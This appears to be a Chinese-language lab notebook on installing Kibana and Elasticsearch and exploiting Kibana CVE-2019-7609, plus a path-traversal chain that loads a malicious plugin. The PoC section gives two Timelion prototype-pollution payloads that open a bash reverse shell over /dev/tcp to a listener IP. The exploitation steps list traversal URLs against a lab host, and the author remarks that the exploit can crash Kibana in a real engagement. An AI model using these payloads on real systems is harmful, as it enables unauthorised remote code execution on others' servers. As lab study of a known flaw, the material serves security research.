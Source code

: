 ### Download and install
- https://www.elastic.co/downloads/kibana
- https://artifacts.elastic.co/downloads/kibana/kibana-6.2.4-linux-x86_64.tar.gz
- https://www.elastic.co/downloads/past-releases#elasticsearch
- https://artifacts.elastic.co/downloads/elasticsearch/elasticsearch-8.1.1-linux-x86_64.tar.gz
- https://artifacts.elastic.co/downloads/elasticsearch/elasticsearch-6.2.4.zip

```
Run bin/kibana (or bin\kibana.bat on Windows)
```

![image](https://user-images.githubusercontent.com/30398606/160968247-fc9def98-5a03-4f56-a3c8-3fd6e5497250.png)


依赖Elasticsearch。
### 修改端口地址
`config/elasticsearch.yml`
```
network.host
```
`config/kibana.yml`
```
server.host
```

- https://www.elastic.co/guide/cn/kibana/current/settings.html
- 
### 载入数据

安装完ElasticSearch之后需要载入数据，否则出现这种情况：
![image](https://user-images.githubusercontent.com/30398606/160978398-9e1b2ad7-b2fc-476a-ab88-2e390a6d7779.png)

- https://www.elastic.co/guide/en/kibana/6.7/tutorial-load-dataset.html

### kibana CVE-2019-7609

- https://research.securitum.com/prototype-pollution-rce-kibana-cve-2019-7609/
- https://github.com/nobodyatall648/writeup/blob/master/TryHackMe/kiba.pdf
- https://www.youtube.com/watch?v=xF5i30mXhSM
- https://baizesec.github.io/bylibrary/%E6%BC%8F%E6%B4%9E%E5%BA%93/03-%E4%BA%A7%E5%93%81%E6%BC%8F%E6%B4%9E/Kibana/CVE-2019-7609-kibana%E4%BD%8E%E4%BA%8E6.6.0%E6%9C%AA%E6%8E%88%E6%9D%83%E8%BF%9C%E7%A8%8B%E4%BB%A3%E7%A0%81%E5%91%BD%E4%BB%A4%E6%89%A7%E8%A1%8C/


### CVE-2019-7609

> Kibana versions before 5.6.15 and 6.6.1 contain an arbitrary code execution flaw in the Timelion visualizer. An attacker with access to the Timelion application could send a request that will attempt to execute javascript code. This could possibly lead to an attacker executing arbitrary commands with permissions of the Kibana process on the host system.


### PoC
```
.es(*).props(label.__proto__.env.AAAA='require("child_process").exec("bash -i >& /dev/tcp/192.168.0.136/12345 0>&1");process.exit()//')
.props(label.__proto__.env.NODE_OPTIONS='--require /proc/self/environ')
```

```
.es(*).props(label.__proto__.env.AAAA='require("child_process").exec("bash -c \'bash -i>& /dev/tcp/127.0.0.1/6666 0>&1\'");//')
.props(label.__proto__.env.NODE_OPTIONS='--require /proc/self/environ')
```


但是漏洞触发，还需要点击"Canvas"。但是某些版本，比如6.2.4并没有"Canvas"功能。


### Rescue
![image](https://user-images.githubusercontent.com/30398606/160997528-7ae1dc1d-8df6-4a32-a6e8-8e47d0e0d1a9.png)

![image](https://user-images.githubusercontent.com/30398606/160998219-fb2d6312-ced4-4912-b3df-2ead6af97ccb.png)

确实下载了test.zip，但是安装出错，导致kibana退出了。如果是实战中，就悲剧了，把有漏洞的kibana给关了，真的无法利用了。
![image](https://user-images.githubusercontent.com/30398606/160999181-696f238a-adca-44bb-a813-2aca8dcb574b.png)

原来是没有把index.js打包进去。

安装失败参考这个构造zip包：
https://github.com/outbrain/ob-kb-percent/issues/7

![image](https://user-images.githubusercontent.com/30398606/161001182-62faa5e8-6d69-4464-8367-c27aecbdbe9d.png)

确保把package.json和index.js都打包进去。
![image](https://user-images.githubusercontent.com/30398606/161003176-a8df6af8-4d10-4553-ad4e-a2f32325b9e0.png)

虽然报这个错，但是插件已经安装成功了。
![image](https://user-images.githubusercontent.com/30398606/161003301-b4029b69-54d8-45cf-8918-2ea3f0ad511d.png)


### 利用过程
0、准备恶意插件：







1、设置payload：


2、触发下载插件：
http://192.168.17.128:5601/api/console/api_server?sense_version=@@SENSE_VERSION&apis=../../../cli_plugin/cli.js




3、触发Kibana加载插件，执行恶意的index.js
http://192.168.17.128:5601/api/console/api_server?sense_version=@@SENSE_VERSION&apis=../../../../plugins/synacktiv/index.js
![image](https://user-images.githubusercontent.com/30398606/161235363-3c99ed01-1a6a-4311-99bc-32ea44bbe370.png)


![image](https://user-images.githubusercontent.com/30398606/161235216-0dc772bb-6de5-4f4a-addf-8025a32e36cf.png)

利用有风险，很多地方都能把kibana给弄挂。这里反弹shell结束之后，kibana就挂了。

## Ref
- https://github.com/mpgn/CVE-2019-7609
- https://github.com/mpgn/CVE-2018-17246
- https://www.synacktiv.com/en/publications/pwning-an-outdated-kibana-with-not-so-sad-vulnerabilities.html
- https://twitter.com/chybeta/status/1185860595620311042

